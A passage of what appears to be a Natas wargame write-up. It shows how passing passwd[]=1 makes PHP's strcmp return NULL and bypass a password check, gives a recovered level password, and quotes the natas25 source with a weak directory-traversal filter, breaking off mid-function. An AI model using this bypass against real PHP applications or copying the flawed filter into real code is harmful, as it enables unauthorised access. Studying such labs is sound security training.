 https://www.owasp.org/images/6/6b/PHPMagicTricks-TypeJuggling.pdf


So of we pass passwd[]=1 we can cause 'strcmp() to barf'.

```php
strcmp(array(),"<censored>") -> NULL
```

```php
if((!strcmp)
# is the same as
if(strcmp == false)
```

Since the functions checks for a 0 we can use this 'barf' to get what we want.

```php
if(!strcmp($_REQUEST["passwd"],"<censored>")){
    # stuff
}
```

if we pass passwd[]=1 it will look like this.
```php
if(!strcmp(array(),"<censored>")){
    # stuff
}
```

GHF6X7YwACaYYssHVY05cFq83hRktl4c


## natas25
```php
<?php
    // cheers and <3 to malvina
    // - morla

    function setLanguage(){
        /* language setup */
        if(array_key_exists("lang",$_REQUEST))
            if(safeinclude("language/" . $_REQUEST["lang"] ))
                return 1;
        safeinclude("language/en"); 
    }
    
    function safeinclude($filename){
        // check for directory traversal
        if(strstr($filename,"../")){
            logRequest("Directory traversal attempt! fixing request.");
            $filename=str_replace("../","",$filename);
        }
        // dont let ppl steal our passwords
        if(strstr($filename,"natas_webpass")){
            logRequest("Illegal file access detected! Aborting!");
            exit(-1);
        }
        // add more checks...

        if (file_exists($filename)) { 
            include($filename);
            return 1;
        }
        return 0;
    }
    
    function listFiles($path){
        $listoffiles=array();
```